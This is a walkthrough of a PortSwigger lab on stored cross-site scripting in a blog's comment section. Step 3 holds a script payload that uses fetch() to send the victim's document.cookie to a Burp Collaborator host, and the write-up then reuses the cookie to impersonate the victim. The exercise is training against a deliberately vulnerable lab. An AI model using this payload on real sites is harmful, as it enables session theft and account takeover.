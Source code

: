 
### Lab: [Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies


	Description: This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

According to the requirements of the lab, i go to the comment section of the application and exploit the vulnerability.
![](../../Img_note/Pasted%20image%2020221213101611.png)

We will succeed if user who visits the blog post, their cookies will be sent to our server. We can use this cookie to impersonate the victim

Step 1:  Open the application with Burp Suite, comment 1 time and watch the application work
When we comment successfully, application announced that "You comment have been submitted"
and the blog post displays our comment.

Step 2: We need a server to get the resquest (has cookie of victim) if attack is successful
We can use **webhook** or yours server, but in this Lab, we can only use **Burp Collaborators** (default public server of Burp Suite)

```
Brup > Burp Collaborator Client 
```

![](../../Img_note/Pasted%20image%2020221213103830.png)

Step 3: Generate payload exploit the vulnerability to exfiltrate the victim's session cookie
We use **[fetch()](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch)** to create a [HTTP request](https://developer.mozilla.org/en-US/docs/Web/API/Request)
To get session cookie, we are going to use
	**document.cookie**

Payload (get the url from the Brup Collaborator)1
```
<script> 
fetch('https://r2ux5q20vrzg0p0czzfxh2h34ualya.oastify.com, { 
method: 'POST', 
body:document.cookie }); 
</script>
```

![](../../Img_note/Pasted%20image%2020221213112909.png)

Step 4: Every time someone visits the page have exploiting script 
![](../../Img_note/Pasted%20image%2020221213124914.png)

Step 5: Turn On **Burp Intercept** and reload the website, change the session with the session that we take from previous step and impersonate the victim 
![](../../Img_note/Pasted%20image%2020221213113857.png)